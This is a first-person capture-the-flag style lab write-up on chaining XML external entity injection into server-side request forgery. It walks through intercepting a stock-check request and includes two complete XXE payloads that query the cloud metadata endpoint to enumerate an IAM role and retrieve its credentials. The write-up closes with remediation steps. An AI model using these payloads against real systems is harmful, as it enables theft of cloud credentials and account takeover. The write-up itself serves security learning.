

# How I Turned an XXE into a Cloud Credentials Heist

## Lab Information

* **Category:** XXE Injection
* **Lab Name:** Exploiting XXE to Perform SSRF Attacks
* **Difficulty:** Apprentice
* **Status:** Solved

---

## What I Was Aiming For

This lab had me thinking one step beyond simple file disclosure. The application was processing XML through its **Check Stock** feature, and I suspected I could abuse that to make the server send requests to internal resources. My goal was to chain the XXE vulnerability into a Server-Side Request Forgery (SSRF) attack against the EC2 metadata service and grab the IAM secret access key.

---

## How I Understood the Vulnerability

XML External Entity (XXE) vulnerabilities happen when an XML parser processes external entities supplied by the user.

I knew I could abuse this to:

* Read local files
* Access internal services
* Perform SSRF attacks
* Exfiltrate sensitive information

In this lab, I planned to use XXE to hit the AWS-style metadata endpoint:

```text
http://169.254.169.254/
```

---

## What I Did

### Step 1 - Intercept the Stock Check Request

1. I opened a product page.
2. I clicked **Check Stock**.
3. I intercepted the XML request in Burp Suite.

### Screenshot


---

### Step 2 - Discover the IAM Role

I injected the following XXE payload to probe for IAM roles:

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE test [
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
]>

<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

The response revealed the IAM role name.

It came back looking like this:

```text
Invalid product ID: admin
```

That told me the server had an IAM role named:

```text
admin
```

### Screenshot


---

### Step 3 - Retrieve the IAM Credentials

Now that I knew the role name, I modified the external entity to target it directly:

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE test [
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">
]>

<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

I sent the request again.

The response returned AWS credential information including:

```json
{
  "Code": "Success",
  "AccessKeyId": "...",
  "SecretAccessKey": "...",
  "Token": "..."
}
```

### Screenshot


---

### Step 4 - Lab Solved

After retrieving the IAM credentials, the lab automatically marked itself as solved.

### Screenshot



---

## Why This Matters

I could abuse XXE vulnerabilities to:

* Access internal network services
* Query cloud metadata endpoints
* Retrieve sensitive credentials
* Escalate privileges
* Perform SSRF attacks

In cloud environments, exposure of IAM credentials can lead to complete account compromise.

---

## How I Would Fix It

To prevent XXE vulnerabilities:

1. Disable external entity processing.
2. Use secure XML parsers.
3. Validate and sanitize XML input.
4. Implement network segmentation.
5. Restrict access to metadata services.
6. Use allowlists for outbound requests.

---

## What I Learned

The application was vulnerable to XML External Entity injection. By leveraging XXE to perform SSRF against the EC2 metadata endpoint, I was able to enumerate the IAM role and retrieve sensitive cloud credentials, resulting in successful exploitation of the lab.
